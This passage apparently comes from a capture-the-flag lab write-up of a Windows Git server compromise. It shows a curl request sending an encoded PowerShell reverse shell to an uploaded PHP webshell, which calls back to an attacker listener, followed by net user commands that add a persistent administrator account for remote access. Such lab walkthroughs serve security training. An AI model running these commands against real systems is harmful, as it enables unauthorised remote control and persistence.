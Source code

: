 - `curl -X POST http://10.200.101.150/web/exploit-0xskar.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.101.200%27%2C15069%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"`
- with a netcat listener setup we recieve a connection.

![0xskar](/assets/wreath08.png)

* * * 

## Git Server - Stabilisation & Post Exploitation 

We know ports 3389 (RDP) and 5985 are open. We also have highest authority so we can add ourselves as user to have RDP connection and get stable access to the box.

```
PS C:\GitStack\gitphp> net user 0xskar p@ssw0rd /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators 0xskar /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" 0xskar /add
The command completed successfully.

PS C:\GitStack\gitphp> net user 0xskar
User name                    0xskar
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            13/09/2022 07:47:15
Password expires             Never
Password changeable          13/09/2022 07:47:15
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```
